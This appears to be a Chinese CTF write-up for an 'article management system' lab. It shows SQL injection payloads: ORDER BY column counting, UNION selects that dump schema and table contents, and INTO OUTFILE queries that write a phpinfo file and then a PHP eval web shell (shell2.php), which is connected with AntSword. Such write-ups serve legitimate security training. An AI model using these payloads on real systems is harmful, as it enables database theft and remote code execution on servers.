 

## 文章管理系统

### sql 注入

```
?id=1 order by 2 --+
```

首先试出字段数为 2, 网页有回显, 并且为数字型注入;

然后尝试联合注入:

```
?id=0 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

之后继续爆表名, 列名, 最后查到当前表名, 列名后:

```
?id=0 union select group_concat(title),group_concat(word) from articles --+
```

![1-1.png](1-1.png)

很可惜这是个假flag;

重新爆一遍库, 能发现有个 ctftraining 库:

![1-2.png](1-2.png)

继续爆表, 能发现一个很可疑的表

![1-3.png](1-3.png)

![1-4.png](1-4.png)

很可惜这个表是空的爆不出内容; 那么很有可能flag 并不在 mysql 的表里, 这里可能需要用 mysql 提权;

```
?id=0 UNION SELECT 1,'<?php phpinfo(); ?>' INTO OUTFILE '/var/www/html/shell.php'
```

访问一下:

![1-5.png](1-5.png)

能看到写入成功了, 那么可以写木马了;

```
?id=0%20UNION%20SELECT%201,%27%3C?php%20@eval($_POST[123]);%20?%3E%27%20INTO%20OUTFILE%20%27/var/www/html/shell2.php%27
```

蚁剑连接: 

![1-6.png](1-6.png)


